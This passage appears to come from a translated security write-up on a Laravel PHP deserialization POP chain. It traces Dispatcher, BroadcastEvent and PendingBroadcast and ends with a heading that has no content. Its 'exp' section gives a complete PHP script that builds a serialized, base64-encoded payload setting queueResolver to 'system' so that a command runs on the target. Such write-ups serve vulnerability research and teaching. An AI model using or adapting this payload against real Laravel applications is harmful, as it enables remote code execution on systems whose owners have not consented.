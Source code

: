 ![undefined](https://p3.ssl.qhimg.com/t01e6a9a1a6100e9667.png "undefined")

First, see how to enter the loop of the if statement. First, `$this->queueResolver` is controllable. Follow up on the `commandShouldBeQueued()` method. Here we determine whether `$command` is an implementation of `ShouldQueue`, that is, the passed `$command` must be an implementation of the `ShouldQueue` interface, and the `$command` class contains the `connection` attribute

![](https://p4.ssl.qhimg.com/t01367152dbc7f202a2.png "undefined")

Here we find two `SendQueuedNotifications` class in `src/Illuminate/Notifications/SendQueuedNotifications.php` and `BroadcastEvent` class in `src/Illuminate/Broadcasting/BroadcastEvent.php`. When the class is a trait class, it can also access its properties. Follow up on `sr
c/Illuminate/Bus/Queueable.php`

![undefined](https://p3.ssl.qhimg.com/t01e456ca37067ba2e3.png "undefined")

![undefined](https://p0.ssl.qhimg.com/t017b7422608496417f.png "undefined")

![undefined](https://p4.ssl.qhimg.com/t01f999c8bef616f299.png "undefined")

### exp
```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver = "system";
    }
}

namespace Illuminate\Broadcasting {
    use Illuminate\Bus\Dispatcher;
    class BroadcastEvent {
        public $connection;
        public $event;
        public function __construct() {
            $this->event = "calc";
            $this->connection = $this->event;
        }
    }
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
### POP chain utilization flow chart
